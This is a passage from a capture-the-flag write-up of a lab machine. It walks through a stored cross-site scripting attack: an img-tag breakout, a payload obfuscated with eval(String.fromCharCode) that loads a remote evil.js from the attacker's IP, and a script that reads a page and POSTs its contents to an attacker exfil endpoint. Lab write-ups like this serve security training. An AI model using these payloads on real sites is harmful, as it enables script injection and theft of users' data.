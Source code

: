 I eventually gave up finding this payload, and I checked the solution. The actual payload was:

```html
<img src="/><script>javascript:alert(1)</script>"/>
```

The final payload did not allow me to have spaces in it, so the actual code executed has to use the `eval(String.fromCharCode)` method.

For this, I can use `document.write` to insert HTML into the DOM since I'm using `eval`.

```python
>>> payload = '''document.write('<script src="http://10.10.14.18/evil.js"></script>');'''
>>> ','.join([str(ord(c)) for c in payload])
'100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,56,47,101,118,105,108,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'
```

The final payload would thus be:

```html
<img src="x/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,56,47,101,118,105,108,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />
```

This finally works and I got callback:

![](../../../.gitbook/assets/htb-holiday-image-15.png)

From here, I just need to figure out how to get the cookie out. The cookie is set to `HttpOnly`, meaning `doucment.cookie` and what not will fail. I attempted to steal the page contents using this:

```js
var url = "http://holiday.htb:8000/vac/28b9356a-fdb3-4ad9-84ac-62b255ef69dd";
var attacker = "http://10.10.14.18:8000/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    var exfilxhr = new XMLHttpRequest();
    exfilxhr.open('POST', attacker, false);
    exfilxhr.send(xhr.responseText);
  }
};
xhr.open('GET', url, true);
xhr.send(null);
```
